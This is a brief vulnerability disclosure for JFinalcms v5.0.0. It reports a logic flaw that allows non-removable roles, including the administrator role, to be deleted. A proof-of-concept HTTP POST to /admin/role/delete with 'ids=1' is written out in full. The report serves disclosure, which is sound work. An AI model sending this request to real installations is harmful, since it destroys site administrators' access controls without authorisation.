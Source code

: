 
target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

There is a logical vulnerability in the system role management department,Can delete non removable roles.

![图片](https://github.com/5p4rk/cms/assets/24523653/65e0ecec-3bca-4cb7-b686-f99ded121008)

poc:

```
POST /admin/role/delete HTTP/1.1
Host: 192.168.247.187:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.247.187:8888/admin/role
Content-Length: 5
Cookie: JSESSIONID=BA544BEE02535ECDD1D19C15FE2187A2
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

ids=1
```

Through this interface, the administrator role can be directly deleted

![图片](https://github.com/5p4rk/cms/assets/24523653/2595a220-063e-4cdb-b1d2-d56fa154ab5e)


